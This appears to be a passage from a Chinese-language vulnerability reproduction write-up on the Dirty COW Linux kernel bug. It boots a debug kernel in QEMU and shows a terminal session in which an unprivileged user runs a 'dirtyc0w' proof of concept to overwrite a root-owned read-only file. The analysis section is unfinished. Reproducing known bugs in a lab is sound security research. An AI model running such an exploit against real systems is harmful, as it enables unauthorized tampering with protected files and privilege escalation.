 上一步已经得到了：

- 带调试信息的Linux Kernel：bzImage
- 包含了PoC的文件系统initramfs镜像：rootfs.img

我们使用qemu将其启动：

```sh
qemu-system-x86_64 \
  -kernel bzImage \
  -initrd rootfs.img \
  -append "console=ttyS0" \
  -nographic
```

进入qemu guest后：

```sh
~ $ id
uid=1000 gid=1000 groups=1000
~ $ ls -l /bin/dirtyc0w
-rwxrwxr-x    1 1000     1000       1023952 Aug 18 08:00 /bin/dirtyc0w
~ $ su
/ # echo nothing > foo
/ # chmod 0404 foo
/ # ls -lah foo
-r-----r--    1 root     root          16 Aug 18 08:48 foo
/ # ^D
~ $ cat foo
nothing
~ $ dirtyc0w foo hacked!!!
mmap 7fd5597c8000
^C
~ $ cat foo
hacked!!!
```

至此漏洞成功复现！🥳

## 漏洞分析

Waiting 

https://xz.aliyun.com/t/7561



